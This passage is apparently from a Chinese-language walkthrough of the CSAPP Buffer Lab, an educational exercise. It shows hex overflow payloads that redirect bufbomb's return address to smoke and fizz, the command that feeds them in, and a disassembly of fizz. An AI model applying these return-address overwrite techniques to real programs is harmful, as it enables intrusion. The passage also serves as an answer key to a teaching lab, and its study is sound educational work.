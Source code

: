   ```
  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 18 8c 04 08
  ```

  smoke的地址用小端法表示

  使用hex2row转化为字符串

  `./hex2raw < 0.txt|./bufbomb -u aidai`

  ![0](https://raw.githubusercontent.com/AiDaiP/images/master/CSAPP-Buffer%20Lab/0.png)

  

* #### Level1: Sparkler

  ```
  Similar to Level 0, your task isto get BUFBOMB to execute the code for fizz rather than returningto test. In this case, however, you must make it appear to fizz as if you havepassed your cookie as its argument. How can you do this?
  ```

  调用fizz，并使fizz的参数为userid对应的cookie

  fizz的地址为`0x08048c42`

  ```assembly
  08048c42 <fizz>:
   8048c42:	55                   	push   %ebp
   8048c43:	89 e5                	mov    %esp,%ebp
   8048c45:	83 ec 18             	sub    $0x18,%esp
   8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
   8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
   8048c51:	75 26                	jne    8048c79 <fizz+0x37>
   8048c53:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048c57:	c7 44 24 04 ee a4 04 	movl   $0x804a4ee,0x4(%esp)
   8048c5e:	08 
   8048c5f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c66:	e8 55 fd ff ff       	call   80489c0 <__printf_chk@plt>
   8048c6b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c72:	e8 04 07 00 00       	call   804937b <validate>
   8048c77:	eb 18                	jmp    8048c91 <fizz+0x4f>
   8048c79:	89 44 24 08          	mov    %eax,0x8(%esp)
   8048c7d:	c7 44 24 04 40 a3 04 	movl   $0x804a340,0x4(%esp)
   8048c84:	08 
   8048c85:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
   8048c8c:	e8 2f fd ff ff       	call   80489c0 <__printf_chk@plt>
   8048c91:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
   8048c98:	e8 63 fc ff ff       	call   8048900 <exit@plt>
  ```

  参数的地址为0x8(%ebp)，fizz的返回地址在0x4(%ebp)

  fizz通过getbuf的返回地址调用，没有返回地址入栈，所以应填充四字节作为fizz的返回地址，然后再将cookie放置到0x8(%ebp)

  ```
  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 42 8c 04 08 61 61 61 61 b0 b7 f4 67
  ```
